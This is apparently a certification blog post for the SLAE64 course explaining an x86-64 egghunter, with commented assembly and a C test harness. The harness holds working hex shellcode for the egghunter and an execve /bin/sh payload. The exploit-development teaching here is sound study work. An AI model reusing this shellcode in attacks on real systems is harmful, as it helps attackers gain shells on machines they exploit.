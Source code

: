 # Egghunter

This assignment was about creating an Egghunter shellcode.

An Egghunter shellcode is used in situations in which you are not sure where exactly your shellcode was placed. The idea is that the egghunter scans the memory for the occurence of a specific value ( the egg ) and jumps to the shellcode that is placed behind the egg.

## Shellcode

In my implementation the egg is exactly 4 bytes long.

```
_start:
    add rsp, 22 ; Dont scan the egghunter shellcode as it contains the egg as well
_huntloop:
    inc rsp ; Increment the rsp so that we search for the egg byte-wise
    cmp dword [rsp], the_egg ; Does Rsp point to the egg?
    jne _huntloop ; If it does not point to the egg do an other iteration

    ; We found the egg \0/
    add rsp, 4 ; Jump over the 4 byte egg
    jmp rsp ; Jump to the shellcode
```

## Testing the egghunter

In order to test my shellcode I created the following C program:
```
    /// AAAA IS THE EGG
    char shellcode[] = "AAAA\x31\xc0\x48\xbb\xd1\x9d\x96\x91\xd0\x8c\x97\xff\x48\xf7\xdb\x53\x54\x5f\x99\x52\x57\x54\x5e\xb0\x3b\x0f\x05";
    char trash[] = "ASFHA(USFHAIFJA)FH(*HAFIONIJ)*Y(&UNMIOPJHOHOIN:IUASD";
    char egghunter[] = "\x48\x83\xc4\x16\x48\xff\xc4\x81\x3c\x24\x41\x41\x41\x41\x75\xf4\x48\x83\xc4\x04\xff\xe4";

    (*(void(*)()) egghunter)();
```

As you can see I placed some trash values between the egghunter and the actuall shellcode to make it more realistic. When the eggunter shellcode is executed the stack looks like this:

```
+-----------------------+
|                       |
|       EGGHUNTER       | <-- RSP
|                       |
+-----------------------+
|                       |
|        TRASH          |
|                       |
+-----------------------+
|                       |
|         EGG           |
|                       |
+-----------------------+
|                       |
|      SHELLCODE        |
|                       |
|                       |
+-----------------------+
```

By incrementing the RSP we let it point closer and closer to the egg until it points to it.
Then I add the egg size ( 4 bytes ) to the rsp so that the rsp points to the shellcode.

This blog post has been created for completing the requirements of the SecurityTube Linux Assembly Expert certification.

http://securitytube-training.com/online-courses/securitytube-linux-assembly-expert

Student ID: SLAE64-1581
